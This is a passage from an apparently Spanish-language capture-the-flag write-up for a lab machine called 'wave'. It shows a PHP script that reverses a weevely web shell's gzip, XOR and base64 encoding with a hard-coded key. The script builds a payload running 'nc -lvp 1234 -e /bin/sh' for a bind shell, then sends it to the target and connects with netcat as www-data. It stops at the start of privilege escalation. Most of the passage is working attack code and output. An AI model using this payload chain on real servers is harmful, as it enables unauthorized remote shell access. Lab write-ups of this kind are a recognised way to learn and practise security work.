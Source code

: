 En el **weevely.php7** original se llevan a cabo 3 procesos: compresión (gzip), encriptación (xor) y codificación (base64).

Creo este script php que haga justo lo mismo pero en orden inverso.

wave.php:
```php
<?php
$clave1 = "3ddf0d5c";          // Clave de cifrado 1

function descifrar($texto, $clave) {
    $longitudClave = strlen($clave);
    $longitudTexto = strlen($texto);
    $resultado = "";                

    for ($i = 0; $i < $longitudTexto;) {
        for ($j = 0; ($j < $longitudClave && $i < $longitudTexto); $j++, $i++) {
            $resultado .= $texto[$i] ^ $clave[$j];
        }
    }

    return $resultado;
}

//bind shell
print(@base64_encode(@descifrar(@gzcompress('system("nc -lvp 1234 -e /bin/sh");'), $clave1)));
?>
```
Al ejecutarlo, obtengo el texto que tengo que envíar a "192.168.1.120/weevely.php7" para que se ejecute una **bind shell**.

```
h3rshel@kali:~/Desktop/test$ php wave.php 
S/hPyBxKfK7mNK4tZrT4Shg0VFICUmSzfjG0Kfqo5kz9NLbSNmSLTjlw
```

Ahora todo lo que tengo que hacer es enviarlo y conectarme a la shell.

```
h3rshel@kali:~/Desktop$ ./send_script.sh S/hPyBxKfK7mNK4tZrT4Shg0VFICUmSzfjG0Kfqo5kz9NLbSNmSLTjlw
h3rshel@kali:~/Desktop$ nc 192.168.1.120 1234
www-data@wave:~/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Y ya estoy dentro :)

## Escalado de privilegios

Haciendo una enumeración rápida, existen 2 usuarios.

```
www-data@wave:~/html$ ls /home
angie  carla
```
